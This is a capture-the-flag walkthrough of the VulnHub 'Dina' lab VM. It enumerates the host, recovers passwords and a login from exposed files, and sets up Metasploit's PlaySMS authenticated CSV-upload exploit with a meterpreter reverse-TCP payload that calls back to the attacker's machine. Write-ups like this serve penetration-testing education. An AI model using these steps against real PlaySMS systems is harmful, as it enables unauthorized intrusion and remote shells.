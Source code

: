 # Dina: 1.0.1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:d7:c0:71       PCS Systemtechnik GmbH
192.168.56.108  08:00:27:b9:c3:c6       PCS Systemtechnik GmbH
```

The IP address `192.168.56.108`, let's enumerate it.


## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -oN nmap.out 192.168.56.108

Nmap scan report for 192.168.56.108
Host is up (0.00046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries 
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
MAC Address: 08:00:27:B9:C3:C6 (Oracle VirtualBox virtual NIC)
```

We explore the website and fuzz the web application :

![MainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cd80ecb5-6813-4ff2-9c0b-adbe5f7088b6)

see robots.txt and the following directories are disallowed :

```text
User-agent: *
Disallow: /ange1
Disallow: /angel1
Disallow: /nothing
Disallow: /tmp
Disallow: /uploads
```

go to `nothing` directory and see the page source, there is a comment here :

```text
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

we collect these possible passwords for later use, and now we can fuzz the application :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.108

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 3618]
/uploads              (Status: 301) [Size: 318] [--> http://192.168.56.108/uploads/]
/secure               (Status: 301) [Size: 317] [--> http://192.168.56.108/secure/]
/robots               (Status: 200) [Size: 102]
/tmp                  (Status: 301) [Size: 314] [--> http://192.168.56.108/tmp/]
/nothing              (Status: 301) [Size: 318] [--> http://192.168.56.108/nothing/]
```

navigate to `/secure` and download the `backup.zip` file :

![zipfile](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0d31dd89-96eb-4572-86a1-ea84fb5ce581)

to unzip the file you need to provide a password, i used `freedom` as we found a list of passwords previously on comment in `/nothing` directory :

```bash
root@kali: 7za e backup.zip

Enter password (will not be echoed):
Everything is Ok      

Size:       176
Compressed: 336
```
see the file type of `backup-cred.mp3 ` :

```bash
file backup-cred.mp3                                                                                
backup-cred.mp3: ASCII tex
```

now cat the content of backup-cred.mp3 

```bash
cat backup-cred.mp3

I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******


url : /SecreTSMSgatwayLogin
```

great now we have a user `touhid` and new directory `/SecreTSMSgatwayLogin`

navigate to this directory and try to login with user touhid and test the passwords you found on comment previously :

![playsms](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4c63f263-9463-4470-afe6-bd227dfb9874)

after trying the passwords, i found that i can login with `touhid:diana` :

![loginpanel](https://github.com/Git-K3rnel/VulnHub/assets/127470407/46c5b8c5-a675-44be-be59-99662a022295)

after a while searching, i found that searchsploit has something with `playsms` panel :

```bash
root@kali: searchsploit playsms 

PlaySMS - 'import.php' (Authenticated) CSV File Upload Code Execution (Metasploit)  | php/remote/44598.rb
PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)  | php/remote/48335.rb
...
```

use metasploit to get code execution :

```bash
root@kali: msfconsole

msf6 > search playsms

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/multi/http/playsms_uploadcsv_exec      2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
   1  exploit/multi/http/playsms_template_injection  2020-02-05       excellent  Yes    PlaySMS index.php Unauthenticated Template Injection Code Execution
   2  exploit/multi/http/playsms_filename_exec       2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution

msf6 > use 0

msf6 exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set targeturi /SecreTSMSgatwayLogin
targeturi => /SecreTSMSgatwayLogin
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set lhost 192.168.56.102
lhost => 192.168.56.102
msf6 exploit(multi/http/playsms_uploadcsv_exec) > options

Module options (exploit/multi/http/playsms_uploadcsv_exec):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   diana                  yes       Password to authenticate with
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.108         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                     yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /SecreTSMSgatwayLogin  yes       Base playsms directory path
   USERNAME   touhid                 yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.102   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4

```













